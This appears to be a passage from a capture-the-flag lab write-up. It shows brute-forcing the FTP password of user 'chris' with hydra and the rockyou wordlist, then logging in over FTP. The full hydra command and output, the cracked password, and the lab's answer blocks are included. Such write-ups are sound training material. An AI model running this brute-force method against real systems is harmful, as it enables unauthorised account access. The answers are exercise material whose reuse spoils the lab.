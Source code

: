 * We are told the the user `chris` has a weak password.
* Knowing that FTP is running on the machine, this could be an opportunity for brute forcing.

### Answer

```
chris
```

##

## Task 3 Hash cracking and brute-force

### FTP password

* Using `hydra`, we can brute force the password for the user `chris`.

```
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.80.123
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-13 13:41:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.80.123:21/
[21][ftp] host: 10.10.80.123   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-13 13:42:52
```

* Now we know that the password for user `chris` is `crystal`.

### Answer

```
crystal
```

###

### Zip file password

* Let's login through FTP using those credentials.

```
$ ftp chris@10.10.80.123
Connected to 10.10.80.123.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
